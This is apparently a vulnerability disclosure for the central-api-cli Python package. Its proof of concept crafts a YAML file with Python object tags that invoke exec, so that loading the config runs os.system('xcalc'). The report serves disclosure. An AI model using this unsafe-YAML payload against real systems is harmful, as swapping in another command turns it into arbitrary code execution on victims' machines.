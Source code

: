 # :book: Description

`central-api-cli` A WIP CLI app to interact with Aruba Central API, this package is vulnerable for `arbitaryCodeexecution`

https://github.com/Pack3tL0ss/central-api-cli

# :recycle:  Steps To Reproduce-:  
  0) `git clone https://github.com/Pack3tL0ss/central-api-cli`
  1) run as in poc.png
```
from centralcli.utils import *


payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""


open('config.yaml','w+').write(payload)

Utils.read_yaml('config.yaml')
```
# :telescope: POC


## 💥 Impact
Arbitary code execution
